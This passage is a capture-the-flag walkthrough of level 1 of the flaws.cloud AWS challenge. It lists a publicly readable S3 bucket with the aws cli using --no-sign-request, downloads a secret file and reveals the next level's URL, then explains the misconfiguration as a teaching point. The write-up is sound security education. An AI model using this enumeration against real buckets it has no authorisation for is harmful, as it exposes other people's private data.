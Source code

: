 We now know that they have a bucket named `flaws.cloud` in `us-west-2`, so we can attempt to browse the bucket by using the aws cli by running: 
```
└─$ aws s3 ls s3://flaws.cloud
```
```

Unable to locate credentials. You can configure credentials by running "aws configure".
```

Let's try adding --no-sign-request
```
└─$ aws s3 ls s3://flaws.cloud --no-sign-request
```
```
2017-03-14 08:30:38       2575 hint1.html
2017-03-03 09:35:17       1707 hint2.html
2017-03-03 09:35:11       1101 hint3.html
2020-05-22 23:46:45       3162 index.html
2018-07-10 22:17:16      15979 logo.png
2017-02-27 07:29:28         46 robots.txt
2017-02-27 07:29:30       1051 secret-dd02c7c.html
```
BOOM!!!
Let's Download this secret using this command:
```
└─$ aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --no-sign-request secret.html
```
```
download: s3://flaws.cloud/secret-dd02c7c.html to ./secret.html
```
and Open it
```
└─$ open secret.html
```
```
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|

Congrats! You found the secret file!
Level 2 is at http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
```

### Lesson learned
On AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files. A number of people accidentally open them up with permissions that are too loose. Just like how you shouldn't allow directory listings of web servers, you shouldn't allow bucket listings.
#### Examples of this problem
- Directory listing of S3 bucket of [Legal Robot](https://hackerone.com/reports/163476) and [Shopify](https://hackerone.com/reports/57505).
- Read and write permissions to S3 bucket for [Shopify again](https://hackerone.com/reports/111643) and [Udemy](https://hackerone.com/reports/131468). This challenge did not have read and write permissions, as that would destroy the challenge for other players, but it is a common problem. 

